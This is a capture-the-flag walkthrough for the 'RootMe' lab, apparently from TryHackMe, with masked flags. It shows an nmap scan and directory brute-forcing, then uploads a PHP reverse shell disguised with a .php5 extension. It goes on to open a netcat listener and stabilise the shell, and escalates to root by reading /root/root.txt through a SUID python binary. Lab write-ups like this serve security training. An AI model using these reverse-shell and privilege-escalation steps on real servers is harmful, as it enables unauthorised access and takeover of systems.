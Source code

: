 # RootMe

<img src="https://i.imgur.com/Wp8VFx7.png" width="100" height="100">

## TASK 2

1) start a nmap scan 
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-09 23:03 BST
Nmap scan report for 10.10.132.201
Host is up (0.60s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.62 seconds
```
the ports open are : 2

2) apache version is here `Apache httpd 2.4.29 ((Ubuntu))` so 2.4.29

3) service on port 22 is ssh

4) start a directory bruteforce tool, i used [dirsearch.py](https://github.com/maurosoria/dirsearch)

5) the hidden directories : 
```bash
[11:27:22] 301 -  312B  - /css  ->  http://10.10.179.137/css/
[11:27:35] 200 -  616B  - /index.php
[11:27:35] 200 -  616B  - /index.php/login/
[11:27:36] 301 -  311B  - /js  ->  http://10.10.179.137/js/
[11:27:49] 301 -  314B  - /panel  ->  http://10.10.179.137/panel/
[11:27:49] 200 -  732B  - /panel/
[11:27:57] 403 -  278B  - /server-status
[11:27:57] 403 -  278B  - /server-status/
[11:28:06] 301 -  316B  - /uploads  ->  http://10.10.179.137/uploads/
[11:28:06] 200 -744B  - /uploads/
```
the hidden directory is /panel/ and the interesting one is uploads

# Task 3
1) download a php reverse shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), change the LHOST and the port
```
wget "https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php"
```
then rename it to bypass file upload restrictions into .php5
```
mv php-reverse-shell.php rev.php5
```
then upload it and start a netcat listener
```
nc -lvnp LPORT
```
and now open the rev shell from your browser by visiting http://$IP/uploads/rev.php5

and now you should have a reverse shell

to stabilize your shell run :
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
and
```
python -c 'import os; os.system("/bin/bash")'
```
now get user.txt
```
cat /var/www/user.txt
THM{********************}
```
# Task 4 priv esc

1) after running

```
find / -user root -perm /4000
```
you'll see in the list also python that can be used to read files with higher permissions

answer : /usr/bin/python

3) get the root flag by simply running

```
python -c 'print(open("/root/root.txt").read())'
THM{********************}
```
